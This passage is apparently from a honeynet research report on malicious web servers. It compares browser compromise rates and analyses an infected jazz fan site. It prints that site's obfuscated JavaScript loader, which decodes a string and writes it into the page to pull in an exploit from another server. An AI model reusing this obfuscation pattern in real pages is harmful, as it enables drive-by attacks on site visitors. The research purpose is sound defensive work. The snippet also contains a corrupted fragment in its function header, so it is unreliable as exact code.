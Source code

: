 [![figure6](images/Figure6.JPG "figure6")](https://www.honeynet.org/node/163)

Figure 6 - Remote code execution vulnerabilities per browser

To determine which browser is actually safer to use, we set up our client honeypots to use these browsers to interact with the servers. Due to time constraints, we were not able to re-evaluate all 300,000 URLs with each browser, but we did reinspect the highly malicious category of adult content comprising approximately 30,000 URLs. As shown in Figure 7, these input URLs that resulted in a 0.5735% of successful compromises of Internet Explorer 6 SP2 did not cause a single successful attack on Firefox 1.5.0 or Opera 8.0.0. Particularly the results on Firefox 1.5.0 are surprising, considering the number of remote code execution vulnerabilities that were publicly disclosed for this browser and the fact that Firefox is also a popular browser. We can only speculate why Firefox wasn’t targeted. We suspect that attacking Firefox is a more difficult task as it uses an automated and “immediate” update mechanism. Since Firefox is a standalone application that is not as integrated with the operating system as Internet Explorer, we suspect that users are more likely to have this update mechanism turned on. Firefox is truly a moving target. The success of an attack on a user of Internet Explorer 6 SP2 is likely to be higher than on a Firefox user, and therefore attackers target Internet Explorer 6 SP2.

[![figure7](images/Figure7.JPG "figure7")](https://www.honeynet.org/node/164)

Figure 7 - Malicious classifications of adult content URLs per browser

## In-Depth Analysis

During our study, we encountered many malicious URLs. We have analyzed a few representatives to provide insight on how these servers operate and what sort of harm they can pose to the victim. Please refer to the shaded boxes or feel free to skip ahead to summary and recommendations.

[![figure8](images/Figure8.JPG "figure8")](https://www.honeynet.org/node/165)

Figure 8 - The Keith Jarrett fan site

The Italian fan site of the jazz pianist and composer Keith Jarrett (http://www.keithjarrett.it) is a malicious site. We found this site by submitting the keyword “Keith Jarrett” from our music category to the Yahoo! search engine, which resulted in the return of this URL in the 15th place on the results list. The site itself is quite simple and is shown in Figure 8. It contains text, images, and links, but no rich media content. We chose this site for an in-depth analysis as it includes some typical aspects of a malicious server, such as obfuscation, exploit location on a central exploit provider server, and a typical example of the spyware that is being deployed upon successful exploitation. Besides these elements, it also contains some more advanced techniques that are targeted at a) hiding the attack and b) increasing the likelihood of attack success. Due to space limitations, we only show portions of data from this site, but do make the complete set available from our website at: [http://newzealand.honeynet.org/kye/mws/keith\_jarrett.zip](http://newzealand.honeynet.org/kye/mws/keith_jarrett.zip).

The exploit that triggers upon visitation of the Keith Jarrett site is not directly contained on the page. We do, however, find a snippet of JavaScript code that “imports” the exploit from a different server onto the page. The snippet of code is shown in Figure 9 and initially doesn’t give much away since it is obfuscated.

```
<script language=JavaScript>
function dc(x)= st2 ns = "isiresearchsoft-com/cwyw" />
{var l=x.length,b=1024,i,j,r,p=0,s=0,w=0,t=Array(63,17,21,4,60,32,52,45,13,28,0,0,0,0,0,0,5,
42,57,37,41,48,62,59,56,24,46,31,38,12,3,27,19,1,39,36,6,26,44,20,9,33,34,0,0,0,0,43,0,15,
53,40,8,2,54,16,7,0,14,23,18,11,22,58,35,51,50,29,25,47,10,30,55,49,61);for(j=Math.ceil(l/b);j>0;j--)
{r='';for(i=Math.min(l,b);i>0;i--,l--){w|=(t\[x.charCodeAt(p++)-48\])<<s;if(s)
{r+=String.fromCharCode(250^w&255);w>>=8;s-=2}else{s=6}}document.write(r)}}
dc('TaXRdJBCKAsZdLBysmDpjAdE2ksLdFdCKodbIjX52kBpjl7ZlAIxUxHSwocShxzrs\_7SKjtR
loHysu9xURcpNUBRhx8pPLHSIjDCPoH5i\_7SPoDRKltEsPVy2aXRdJBCKlM')\\
</script>
```
Figure 9 - Obfuscated JavaScript
